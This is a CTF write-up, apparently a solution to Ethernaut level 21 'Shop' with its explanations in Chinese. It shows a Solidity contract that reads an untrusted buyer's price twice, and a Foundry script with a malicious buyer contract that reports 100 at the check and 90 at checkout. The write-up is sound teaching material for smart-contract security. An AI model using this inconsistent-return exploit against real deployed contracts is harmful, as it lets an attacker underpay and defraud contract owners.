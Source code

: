 # Ethernaut CTF Writeup

## Level 21 Shop

> 題目: https://ethernaut.openzeppelin.com/level/0xDc0c34CFE029b190Fc4A6eD5219BF809F04E57A3

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

過關條件: 

- 用低於指定的價格買到商品

解法：

- 在第一次呼叫與第二次呼叫時給出不同結果
    - 第一次呼叫(檢查價格)：回傳指定價格
    - 第二次呼叫(結帳)：回傳較低價格

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import {Shop} from "../src/level21/Shop.sol";

contract MaliciousBuyer {
    Shop private immutable shop;

    constructor(address _target) {
        shop = Shop(_target);
    }

    function exploit() external {
        shop.buy();
    }

    function price() external view returns (uint256) {
        if (!shop.isSold()) {
            return 100;
        } else {
            return 90;
        }
    }
}

contract Attack is Script {
    MaliciousBuyer buyer;
    function run() public {
        vm.startBroadcast();

        buyer = new MaliciousBuyer(0x1386aDf9BD9cCF152F952d2CF5F45901d8067b1e);
        buyer.exploit();

        vm.stopBroadcast();
    }
}
```